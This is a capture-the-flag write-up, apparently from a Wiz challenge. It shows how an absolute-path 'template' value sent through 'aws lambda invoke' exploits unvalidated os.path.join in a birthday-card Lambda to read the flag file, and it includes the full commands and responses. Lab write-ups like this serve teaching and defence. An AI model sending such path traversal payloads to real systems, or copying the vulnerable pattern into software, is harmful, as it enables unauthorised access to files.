

### Exploiting the Path Traversal Vulnerability

After confirming that the `GenerateBirthdayCard` Lambda function could be invoked directly, a baseline request was made using the default template:

```bash
aws lambda invoke \
  --function-name arn:aws:lambda:us-east-1:370540381921:function:GenerateBirthdayCard \
  --cli-binary-format raw-in-base64-out \
  --payload '{"token":"1780735491:ab49b289027f3426","template":"default_balloon","name":"0x0z0n"}' \
  default_template.json
```

The Lambda returned a successful response containing the expected HTML birthday card template with the supplied name rendered into the page:

```json
{
  "status": "success",
  "data": {
    "card_content": "<!DOCTYPE html>..."
  }
}
```

This confirmed that the `template` parameter controlled which file the Lambda loaded and that the contents of the selected file were returned directly to the caller.

During source code review, the following vulnerable pattern was identified:

```python
template_path = os.path.join("templates", f"{template}.txt")
```

Because the application did not validate the user-controlled `template` value, supplying an absolute path would cause `os.path.join()` to ignore the intended `templates` directory. To test this behavior, the template parameter was replaced with `/flag`:

```bash
aws lambda invoke \
  --function-name arn:aws:lambda:us-east-1:370540381921:function:GenerateBirthdayCard \
  --cli-binary-format raw-in-base64-out \
  --payload '{"token":"1780735491:ab49b289027f3426","template":"/flag","name":"0x0z0n"}' \
  flag.json
```

The invocation succeeded and returned the contents of the flag file:

```json
{
  "status": "success",
  "data": {
    "card_content": "WIZ_CTF{s3_turns_20_and_the_party_is_XXXXXXXXXXXXXXXXXXXXX}"
  }
}
```



This demonstrated a classic path traversal vulnerability that allowed arbitrary file access outside the intended template directory. By abusing the user-controlled `template` parameter, it was possible to read sensitive files from the Lambda execution environment and ultimately retrieve the challenge flag.
